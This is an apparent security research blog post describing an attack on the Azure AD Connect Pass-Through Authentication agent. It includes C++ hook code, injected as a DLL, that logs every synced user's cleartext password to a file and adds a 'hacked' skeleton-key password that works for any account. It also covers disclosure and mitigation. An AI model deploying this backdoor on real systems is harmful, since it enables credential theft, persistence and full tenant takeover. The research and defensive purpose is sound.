




Azure Skeleton Key: Exploiting Pass-Through Auth to Steal Credentials

By
[Eric Saraga](https://www.varonis.com/blog/author/esaraga/)
Updated: 6/17/2020

**EDIT:** Security researcher Adam Chester had previously written about Azure AD Connect for Red Teamers, talking about hooking the authentication function. Check out his [awesome write-up here](https://blog.xpnsec.com/azuread-connect-for-redteam/).

## Executive Summary

Should an attacker compromise an organization’s Azure agent server–a component needed to sync Azure AD with on-prem AD–they can create a backdoor that allows them to log in as any synchronized user. We created a proof-of-concept that manipulates the Azure authentication function to 1.) give us a ‘skeleton key’ password that will work for all users, and 2.) dump all real clear-text usernames and passwords into a file.

## Pass-Through Authentication with Azure AD-Connect

Azure AD-Connect connects an Azure AD environment to an on-premises domain and provides several authentication methods:

- **Password Hash Synchronization** – a method that syncs the local on-prem hashes with the cloud.
- **Pass-Through Authentication** – a method that installs an “Azure agent” on-prem which authenticates synced users from the cloud.
- **Federation** – a method that relies on an AD FS infrastructure.

Our attack method exploits the Azure agent used for Pass-Through Authentication. The on-prem agent collects and verifies credentials received by Azure AD for accounts that are synced with on-prem domains.

## The Authentication Flow

[](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/authentication-flow.png)

1. The user enters their username and password in Azure AD/O365.

2. Azure AD encrypts the credentials using a public key and places them in the agent queue – a persistent connection created by the on-prem agent. The agent then collects the credentials and decrypts them with its private key.

3. The agent then authenticates the user to the On-Prem DC using the API function ***LogonUserW***.

4. The DC validates the credentials and returns a response.
5. The on-prem DC’s response is forwarded back to the Azure AD.
6. If the user’s sign-in is successful, the user will be logged in.

## Abusing the Agent

To exploit the agent, we’ll need the following:

- Azure AD Connect configured for Pass-Through Authentication.
- Administrative privileges on a server with an Azure Agent installed.

After compromising a server running an Azure agent, we can tamper with the authentication flow. The process that’s responsible for verifying credentials is conveniently called ***AzureADConnectAuthenticationAgentService.exe*** and it relies on the API function ***LogonUserW**.*  Microsoft’s documentation states, “the Authentication Agent attempts to validate the username and the password against on-premises Active Directory by using the [Win32 LogonUser API](https://msdn.microsoft.com/library/windows/desktop/aa378184.aspx) with the ***dwLogonType*** parameter set to **LOGON32_LOGON_NETWORK**.

If we hook the API call using [APIMonitor](http://www.rohitab.com/apimonitor) (a tool that can hook any Windows API call assuming you have admin privileges), we can start looking at interesting stuff in the authentication process:

[](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/api-monitor.png)

The user “noob” authenticated with the password “mypassword”.

[](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/ralph.png)

## Creating an API Monitor

Now that we know how to access passwords, let’s see if we can automate the process.

The plan is to inject a DLL into the ***AzureADConnectAuthenticationAgentService.exe*** and rewrite the pointer to the function ***LogonUserW** *with our own function.

Using [EasyHook](https://easyhook.github.io/), we wrote a DLL that hooks the ***LogonUserW**  *function and replaces it with a new ***LogonUserW***:

1. BOOL myLogonUserW(LPCWSTR lpszUsername, LPCWSTR lpszDomain, LPCWSTR lpszPassword, DWORD dwLogonType, DWORD dwLogonProvider, PHANDLE phToken)

2. {
3.  //Write to file
4.  ofstream myfile;
5.  myfile.open("c:\\temp\\shhhh.txt", std::ios_base::app);
6.
7.  string user = utf8_encode(lpszUsername);
8.  string pass = utf8_encode(lpszPassword);
9. myfile << "Username: ";
10.  myfile << user << "\n";
11.  myfile << "Password: ";
12.  myfile << pass << "\n\n";
13.  myfile.close();
14.

15.   return LogonUserW(lpszUsername, lpszDomain, lpszPassword, dwLogonType, dwLogonProvider, phToken);

16. }

Note that the function requires the same number of parameters as ***LogonUserW***. When the function is called, it creates the file ***“shhhh.txt”*** and writes the username and password variables to it. The function returns the result of the real ***LogonUserW*** call with the initially supplied parameters.

## Injecting the DLL

Thanks to [InjectAllTheThings](https://github.com/fdiskyou/injectAllTheThings), and its reflective DLL module, we loaded our DLL into the process and got the following results:

[](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/clear-text-passwords.png)

Every synchronized user that connects to Azure AD (e.g., Office 365) will add their password to our text file.

## La Cerise Sur le Gâteau

Our password collector just needs a little “I do not know what” to turn into an Azure Skeleton Key, allowing an attacker to authenticate (with one factor) as *any* user, using a predetermined password.

For our skeleton key, we’ll modify the return value in the function, *[**LogonUserW**](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonuserw),* so that when we input the password ‘hacked’ we’ll successfully login, regardless of the user’s real password. ***LogonUserW*** is a Boolean function that receives a pointer to a user’s token, populating it with a user token and returning true if successful.

[](https://blogvaronis2.wpengine.com/wp-content/uploads/2020/04/bool.png)

A little bit of testing reveals that returning either a fake token or no token causes the process to crash, so the program requires a valid token.

Where can we get a user token to pass to the function without generating one?

Well, since we’re already in the ***AzureADConnectAuthenticationAgentService.exe ***process, we can borrow its user token!

New version:

1. BOOL myLogonUserW(LPCWSTR lpszUsername, LPCWSTR lpszDomain, LPCWSTR lpszPassword, DWORD dwLogonType, DWORD dwLogonProvider, PHANDLE phToken)

2. {
3.  //Write to file
4.  ofstream myfile;
5.  myfile.open("c:\\temp\\beep.txt", std::ios_base::app);
6.
7.  string user = utf8_encode(lpszUsername);
8.  string pass = utf8_encode(lpszPassword);
9.
10.  //get time
11.  std::time_t result = std::time(nullptr);
12.  myfile << "[*] ";
13.  myfile << std::asctime(std::localtime(&result));
14.
15.  myfile << "Username: ";
16.  myfile << user << "\n";
17.  myfile << "Password: ";
18.  myfile << pass << "\n\n";
19.  myfile.close();
20.
21.  string hacked = "hacked";
22.
23.   if(hacked.compare(pass))
24.  {
25.  // Log the user in

26.   return LogonUserW(lpszUsername, lpszDomain, lpszPassword, dwLogonType, dwLogonProvider, phToken);

27.  }
28.   else
29.  {
30.  // Use Skeleton Key, return true
31.  OpenProcessToken(GetCurrentProcess(), TOKEN_READ, phToken);
32.   return true;
33.  }
34. }

By calling ***OpenProcessToken*** we populate the ***phToken*** variable with the process’s own token.

Works like a charm!

While every user can still connect with their own password, we can successfully authenticate as any user by using the password “hacked”.

## Here you go …

By this point, the attacker gained complete and full control over the tenant and can log in as any user, including the Global Admin account. **This is the Endgame.**

[86346fc2314cde719553b47957cee1ca4eecfc2f.webp](../_resources/ef5240d5a2549bbdf1021c01c4a5abbf.webp)

1:23

## Final Thoughts

Installing a skeleton key on an Azure agent can be useful for:

- Escalating your privileges to Global Administrator (which in turn allows you to control the Azure tenant)
- Gaining access to the organization’s on-prem environment by resetting a domain admin password (assuming password write-back is enabled)
- Maintaining persistence in an organization
- Collecting cleartext passwords

Microsoft Security Response Center’s response to our report leads us to believe a patch will not be created:

> This report does not appear to identify a weakness in a Microsoft product or service that would enable an attacker to compromise the integrity, availability, or confidentiality of a Microsoft offering. For this issue, the attacker needs to compromise the machine first before they can take over the service.

Though I’m not familiar with the inner workings of Azure’s Pass-Through Authentication, I can suggest a few solutions that may help mitigate this vulnerability. For example, it might be possible to forward the encrypted credentials from the agent to a centralized agent, which resides on the DC (typically a well-protected server). That DC agent would verify the credentials and reply with an encrypted response that can only be opened by the Azure Cloud service. An attacker that gained full control on a DC has already won, any consequent exploits are overshadowed by that fact.

One of our customers had a really interesting take on this as well:

> The Skeleton Key could be a problem in environments that allow a user to login to Azure/O365 accounts without MFA, but the ability for the Agent to capture every single login id and password in plaintext as Azure authenticates with the local DC is a huge concern.  This would provide the attacker with masses of valid user accounts that could be used to login to on-prem resources as different users.  Suddenly, the Server Admin that didn’t have access to the databases, other devices and resources now has enough user accounts at their disposal to traverse all over the place and access databases that they didn’t previously have.  Yes, you could argue that grabbing the AD .dit file would also do this, but those passwords are still hashed, you’d need extra time to either crack the hashes offline, or, use a pass the hash type attack (many of which would be detected).  This new method seems much easier for a threat actor to use and harder for an IR team to detect.

## Prevention

Privileged attackers might use this exploit to install a backdoor or collect passwords. Traditional log analysis may fail to detect this if the attacker knows how to cover his tracks.

Using MFA will prevent attackers from connecting to your Azure cloud with a fake password, though this attack could be used to collect passwords in MFA-enabled environments.

Further mitigation for this attack is to secure Azure Agent servers, monitor user activity for abnormal resource and data access, and use classification to discover files that contain cleartext usernames and passwords.

### Sources

Microsoft’s documentation: https://docs.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta-security-deep-dive